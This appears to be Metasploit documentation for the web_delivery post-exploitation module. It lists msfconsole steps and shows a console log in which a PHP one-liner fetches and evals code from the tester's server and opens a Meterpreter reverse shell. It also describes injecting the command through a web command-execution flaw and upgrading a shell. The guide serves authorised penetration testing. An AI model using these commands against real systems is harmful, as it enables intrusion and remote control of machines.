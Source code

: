As a web server, web_delivery provides a great way to deliver a payload during post exploitation,
with the intention to stay stealthy because the payload does not touch the disk.

Currently, web_delivery supports three different languages for delivery: Python, PHP, and
Powershell. You should be able to tell which one you can use based on the target environment
you are in.

For example: if you have gained access through a PHP application, then it's safe to assume you can
use PHP. If you're in a Windows server (such as Windows Server 2008), then it's probably safe to
say the target supports Powershell.

## Verification Steps

To be able to use web_delivery, you must gain access to the target machine first, wit the ability
to execute either the Python, or PHP, or Powershell interpreter.

At that point, you would use web_delivery similar to the following example:

1. Start msfconsole
2. Do: ```use exploit/multi/script/web_delivery```
3. Do: ```set target 1``` (1 is PHP. You can use ```show targets``` to see other options)
4. Do: ```set PAYLOAD php/meterpreter/reverse_tcp``` (You can do ```show payloads``` to see what options are suitable for the target)
5. Do: ```set LHOST IP``` (The IP the payload should connect back to)
6. Do: ```run```
7. At this point, a handler is up for that payload. And the module should instruct you to execute
   a command.
8. Copy the command. Depending on your pentesting scenario, typically you can either inject the
   command and get code execution, or run it from the target's shell, and get a session:

```
msf exploit(web_delivery) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.23.1:4444 
msf exploit(web_delivery) > [*] Using URL: http://0.0.0.0:8080/z5inGkwCCQiz9
[*] Local IP: http://10.6.0.86:8080/z5inGkwCCQiz9
[*] Server started.
[*] Run the following command on the target machine:
php -d allow_url_fopen=true -r "eval(file_get_contents('http://172.16.23.1:8080/z5inGkwCCQiz9'));"
[*] Delivering Payload
[*] Sending stage (33684 bytes) to 172.16.23.134
[*] Meterpreter session 1 opened (172.16.23.1:4444 -> 172.16.23.134:41684) at 2016-03-02 11:41:34 -0600
```

## Targets

**Python**

Python is a fairly popular language, especially on unix-based systems. For example, it comes with
Ubuntu Linux by default since 8.04. As well as Debian, and Mac OS X since 10.3.

**PHP**

PHP is a fairly popular language for web servers, especially Apache.

**Powershell/win**

Powershell is a popular language for newer Windows systems. Windows 7 and Windows Server 2008 R2
are the first Windows versions to come with Powershell by default, and not older systems.

## Scenarios

**Against a compromised web application**

web_delivery would work nicely for a web application with a command execution vulnerability.

One way to approach this would be:

1. Start exploit/multi/script/web_delivery
2. Use Burp Suite to intercept the HTTP/HTTPS request, place the command in the parameter that
   results in arbitrary code execution.
3. Hopefully the modified HTTP/HTTPS request is successful, and you should get a session.

**Shell upgrade**

web_delivery is also useful to upgrade a shell type payload to a meterpreter one.

Here's how that can be done:

1. Start exploit/multi/script/web_delivery that generates/
2. On msfconsole, interact with the shell, and copy/pate the command.
3. You should get a meterpreter session.
